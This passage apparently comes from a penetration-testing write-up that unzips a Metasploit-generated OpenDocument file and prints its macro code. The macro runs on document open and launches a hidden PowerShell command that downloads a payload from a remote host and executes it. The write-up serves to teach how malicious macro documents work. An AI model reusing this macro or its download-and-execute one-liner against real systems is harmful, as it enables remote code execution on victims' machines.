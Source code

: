 
I can take my document and run it somewhere to try to get a connection, but
for the purposes of this post, I can exit MSF now.

#### Document

Now I can open up the document and take a look.

    
    
    root@kali# unzip msf.zip 
    Archive:  msf.zip
     extracting: Configurations2/accelerator/current.xml  
      inflating: manifest.rdf            
      inflating: Basic/script-lc.xml     
      inflating: Basic/Standard/Module1.xml  
      inflating: Basic/Standard/script-lb.xml  
      inflating: meta.xml                
      inflating: META-INF/manifest.xml   
      inflating: content.xml             
      inflating: Thumbnails/thumbnail.png  
     extracting: mimetype                
      inflating: styles.xml              
      inflating: settings.xml            
    root@kali# ls
    Basic  Configurations2  content.xml  manifest.rdf  META-INF  meta.xml  mimetype  settings.xml  styles.xml  Thumbnails
    

I’ll find the macros in the Basic folder, under `Module1.xml`:

    
    
    root@kali# tree Basic/
    Basic/
    ├── script-lc.xml
    └── Standard
        ├── Module1.xml
        └── script-lb.xml
    
    1 directory, 3 files
    

Here’s the code (I’ve pulled it out of the XML and removed some of the simple
encoding like replacing `&quot;` with `"`):

    
    
        Sub OnLoad
          Dim os as string
          os = GetOS
          If os = "windows" OR os = "osx" OR os = "linux" Then
            Exploit
          end If
        End Sub
    
        Sub Exploit
          Shell("cmd.exe /C ""powershell.exe -nop -w hidden -c $i=new-object net.webclient;$i.proxy=[Net.WebRequest]::GetSystemWebProxy();$i.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $i.downloadstring('http://10.1.1.41:8088/Pc2F6ndgt1H5jGs');""";)
        End Sub
    